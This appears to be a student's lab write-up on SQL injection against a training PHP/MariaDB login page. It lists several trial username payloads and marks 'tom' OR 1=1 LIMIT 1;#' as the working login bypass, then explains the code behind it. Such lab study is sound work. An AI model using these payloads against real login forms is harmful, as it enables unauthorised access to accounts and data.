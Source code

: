 9.4.5.4

# 9.4.5.4
## 9.4.5.4.1. Interact with the MariaDB database and manually execute the commands required to authenticate to the application. Understand the vulnerability.

Authenticate to the webappdb database as root.
![3013ad9b118637e2af2aa9a12ed556f3.png](../../_resources/a8d9042252e74482a7bf1b453779e62e.png)

Use the WHERE clause to select by id or by username
![883a8fc348b006703988edfc335be69a.png](../../_resources/c68fcdd630ec490aa496e083b12d9905.png)



## 9.4.5.4.2. SQL inject the username field to bypass the login process.
Now try logging in without valid credentials
`tom'`
![211b521d3d86d5f460303c83c22ff0cb.png](../../_resources/3a7c0ea9bed9415ca295cdd10a1d58f4.png)

`1=1'`
![8410364e0717816486a4b1f45d1fe2ba.png](../../_resources/857e0d8beb4544cdb3fdc0580ddbcc11.png)

`tom' or 1=1'#`
![f09449b07da7289ab43895e03ae96946.png](../../_resources/4bb31edcc97a4217bdfddae5943b0611.png)

`tom or 1=1'`
![7860db31cdc8cc02f8ca64cf73b787bd.png](../../_resources/2d6ec9375ae546e9b53bbd035bc9e064.png)

`tom or 1=1'#`
![7c77a4ab77c847d48f96956c51fcb508.png](../../_resources/afe4c4a8744e43bd9b4c8a6665abec9c.png)

`tom' or 1=1#`
![a058810c49032dd0586baacdf8e77e0d.png](../../_resources/137b3a69421b441e921c5eb12663adf3.png)

`tom' or 1=1;#`
![14d67a85847a2ed5d6b23526e2f6b541.png](../../_resources/3f5c4f8d74b64064ba1424f4d26360de.png)

`tom' OR 1=1 LIMIT 1;#` THIS WORKS!
![9bc81eb738717bd462a59079f26ef191.png](../../_resources/a0226ba82def43689a2d1181eea3d7d8.png)


## 9.4.5.4.3. Why is the username displayed like it is in the web application once the authentication process is bypassed?

When a user is authenticated, the code calls header(admin.php). The header() function is a predefined PHP native function that allows us to control data sent to the client by the Web server before other output has been sent. In this case, it redirects to admin.php. There is a statement in admin.php that echoes "Welcome <user>"
![648251edf7ba25e575744109f2316ef0.png](../../_resources/64ec728333104fe1aa507bc6cbab7263.png)



## 9.4.5.4.4. Execute the SQL injection in the password field. Is the "LIMIT 1" necessary in the payload? Why or why not?

Yes it is necessary to include "LIMIT 1" in this example because the source code file login.php because line 22 requires there to be exactly 1 result.
```plaintext
if( $result->num_rows == 1 ) {
                                        $_SESSION['user'] = $_POST['username'];
                                        header("Location:admin.php");
```
![a69401c79bb1c29c897b1a873cdc14de.png](../../_resources/5019110b1f4a4f8ab219ff5d673560b3.png)



